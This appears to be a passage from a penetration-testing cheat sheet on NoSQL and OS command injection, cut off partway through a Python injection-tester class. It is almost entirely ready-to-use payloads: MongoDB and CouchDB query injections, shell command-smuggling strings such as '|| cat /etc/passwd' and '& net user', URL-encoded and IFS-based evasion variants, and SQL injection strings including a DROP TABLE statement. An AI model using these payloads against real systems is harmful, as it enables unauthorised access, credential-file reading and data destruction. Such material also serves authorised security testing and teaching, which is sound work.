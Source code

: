 ## 🌐 NoSQL and Command Injection

### 📊 NoSQL Injection Testing
```javascript
// MongoDB injection examples
{"$where": "this.username == 'admin'"}
{"username": {"$regex": "^admin"}}
{"username": {"$ne": null}}
{"username": {"$in": ["admin", "administrator"]}}

// CouchDB injection
{"selector": {"username": {"$regex": ".*admin.*"}}}

// Cassandra injection
SELECT * FROM users WHERE username = 'admin' ALLOW FILTERING
```

### ⚡ OS Command Injection
```bash
# Command injection payloads
; ls -la
| whoami
& net user
&& ping -c 4 127.0.0.1
|| cat /etc/passwd

# URL encoded payloads
%3B+ls+-la
%7C+whoami
%26+net+user
%26%26+ping+-c+4+127.0.0.1

# Advanced evasion
`ls -la`
$(ls -la)
${IFS}ls${IFS}-la
```

### 🔧 Injection Testing Framework
```python
# Comprehensive injection tester
class InjectionTester:
    def __init__(self, target_url, parameter):
        self.target_url = target_url
        self.parameter = parameter
        self.payloads = self.load_payloads()
    
    def load_payloads(self):
        """Load injection payloads"""
        return {
            'sql': [
                "' OR '1'='1",
                "'; DROP TABLE users; --",
                "' UNION SELECT version() --"
            ],
            'nosql': [
                '{"$where": "1==1"}',
                '{"$regex": ".*"}',
                '{"$ne": null}'
            ],
            'command': [
                '; ls -la',
                '| whoami',
```